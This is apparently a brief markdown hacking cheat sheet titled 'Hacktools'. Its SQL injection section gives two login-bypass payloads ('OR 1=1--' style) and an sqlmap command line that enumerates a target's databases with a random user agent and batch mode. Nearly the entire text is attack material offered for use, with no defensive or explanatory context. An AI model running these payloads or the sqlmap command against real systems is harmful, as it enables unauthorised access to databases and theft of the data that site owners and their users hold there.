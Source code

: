 # Hacktools

# SQLI
## Easy command
'OR 1=1--
'OR '1'='1'--'

## Autotools
sqlmap -u "target-url" -p <your-parament> --thread 10 --random-agent --batch --dbs
